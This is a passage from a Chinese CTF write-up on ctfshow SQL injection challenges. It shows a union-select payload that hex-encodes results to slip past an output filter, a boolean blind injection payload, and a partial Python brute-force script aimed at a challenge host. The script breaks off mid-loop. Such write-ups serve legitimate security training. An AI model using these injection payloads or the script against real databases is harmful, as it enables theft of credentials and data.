 过滤了返回字符串不能含有 flag,

那我们就将他十六进制编码即可。

```
-1' union select 1,2,hex(group_concat(username,password)) from ctfshow_user3--+
```

## web174~py脚本布尔盲注

> 查询语句
>
> ```
> //拼接sql语句查找指定ID用户
> $sql = "select username,password from ctfshow_user4 where username !='flag' and id = '".$_GET['id']."' limit 1;";
>       
> ```
>
> 返回逻辑
>
> ```
> //检查结果是否有flag
>     if(!preg_match('/flag|[0-9]/i', json_encode($ret))){
>       $ret['msg']='查询成功';
>     }
>       
> ```



无回显，只好盲注了，

```
1' and ascii(substr((select password from ctfshow_user4 where username ='flag'),1,1))=2--+
```

验证了成功可以盲注，第一位ascii是102,也就是`f` 

![image-20210122093547394](https://gitee.com/luo_fan_1/yanmie-art/raw/master/img/image-20210122093547394.png)

写个脚本。

```python
# @Author:yanmie

import requests

url = "http://d273060e-9119-43c3-9737-acf668088663.chall.ctf.show/api/v4.php?id=1' and "

headers = {
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:81.0) Gecko/20100101 Firefox/81.0"
}

i=0
j=1
result = ""

while True:
    i = i + 1
    payload = "ascii(substr((select password from ctfshow_user4 where username ='flag'),{j},1)) = {i}--+"
    #print(i,j)
    payload = payload.format(j=j,i=i)
    # print(payload)
    response = requests.get(url = url+payload,headers = headers)
    if "admin" in response.text:
        result += chr(i)
```